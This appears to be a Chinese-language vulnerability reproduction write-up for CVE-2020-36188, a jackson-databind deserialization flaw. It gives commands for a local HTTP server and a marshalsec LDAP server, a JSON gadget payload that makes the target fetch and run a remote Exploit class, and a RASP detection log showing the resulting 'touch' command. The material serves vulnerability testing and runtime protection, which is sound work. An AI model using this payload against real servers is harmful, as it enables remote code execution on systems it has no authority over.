






# CVE-2020-36188


## 漏洞简介

FasterXML jackson-databind 2.x < 2.9.10.8的版本存在该漏洞，该漏洞是由于com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource组件库存在不安全的反序列化，导致攻击者可能利用漏洞实现远程代码执行.

## 影响版本

FasterXML jackson-databind 2.x < 2.9.10.8

## 复现环境

### 代码下载

[gitee代码仓库](https://gitee.com/xl1605368195/cve-2020-36188)


### 工程初始化





### 启动一个http服务

在`src/main/resource`目录下启动一个http服务，端口4444


命令：python -m  SimpleHTTPServer 4444

### 启动 jndi



命令： java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:4444/#Exploit 1288

### 发起攻击

#### 启动web
```
java -jar ./target/CVE-2020-36188-0.0.1-SNAPSHOT.jar
```

#### 发起请求


http body参数
```json
["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://127.0.0.1:1288/Exploit"}]
```

#### 结果

请求结果：



jndi服务：





服务报错(不影响命令执行，可以忽略！！)：



/tmp 下`cve-2020-36188`被创建


## RASP防护

```json
{
    "protocol":"HTTP/1.1",
    "method":"POST",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "isBlocked":false,
    "requestURI":"/json",
    "stackTrace":[
        "java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
        "java.lang.ProcessImpl.start(ProcessImpl.java:134)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "Exploit.<clinit>(Exploit.java:6)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)",
        "sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)",
        "java.lang.reflect.Constructor.newInstance(Constructor.java:423)",
        "java.lang.Class.newInstance(Class.java:442)",
        "javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:173)",
        "javax.naming.spi.DirectoryManager.getObjectInstance(DirectoryManager.java:189)",
        "com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1114)",
        "com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)",
        "com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)",
        "com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)",
        "com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)",
        "javax.naming.InitialContext.lookup(InitialContext.java:417)",
        "com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource.lookupDataSource(JNDIConnectionSource.java:97)",
        "com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource.getConnection(JNDIConnectionSource.java:57)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:688)",
        "com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:719)",
        "com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:155)",
        "com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)",
        "com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)",
        "com.fasterxml.jackson.databind.ObjectMapper._configAndWriteValue(ObjectMapper.java:3906)",
        "com.fasterxml.jackson.databind.ObjectMapper.writeValueAsString(ObjectMapper.java:3220)",
        "com.example.cve202036188.Controller.json(Controller.java:18)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.springframework.web.method.support.InvocableHandlerMethod.doInvoke(InvocableHandlerMethod.java:209)",
        "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:136)",
        "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:102)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:877)",
        "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:783)",
        "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:87)",
        "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:991)",
        "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:925)",
        "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:974)",
        "org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:877)",
        "javax.servlet.http.HttpServlet.service.md(HttpServlet.java:661)",
        "org.springframework.web.servlet.FrameworkServlet.service.md(FrameworkServlet.java:851)",
        "javax.servlet.http.HttpServlet.service.md(HttpServlet.java:742)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.springframework.web.filter.RequestContextFilter.doFilterInternal(RequestContextFilter.java:99)",
        "org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.springframework.web.filter.HttpPutFormContentFilter.doFilterInternal(HttpPutFormContentFilter.java:109)",
        "org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.springframework.web.filter.HiddenHttpMethodFilter.doFilterInternal(HiddenHttpMethodFilter.java:93)",
        "org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.springframework.web.filter.CharacterEncodingFilter.doFilterInternal(CharacterEncodingFilter.java:200)",
        "org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
        "org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)",
        "org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)",
        "org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)",
        "org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)",
        "org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:496)",
        "org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)",
        "org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)",
        "org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)",
        "org.apache.catalina.connector.CoyoteAdapter.service.md(CoyoteAdapter.java:342)",
        "org.apache.coyote.http11.Http11Processor.service.md(Http11Processor.java:803)",
        "org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)",
        "org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:790)",
        "org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1468)",
        "org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)",
        "java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)",
        "java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)",
        "org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "json":[
            "[\"com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"ldap://127.0.0.1:1288/Exploit\"}]"
        ]
    },
    "command":"touch /tmp/cve-2020-36188",
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```


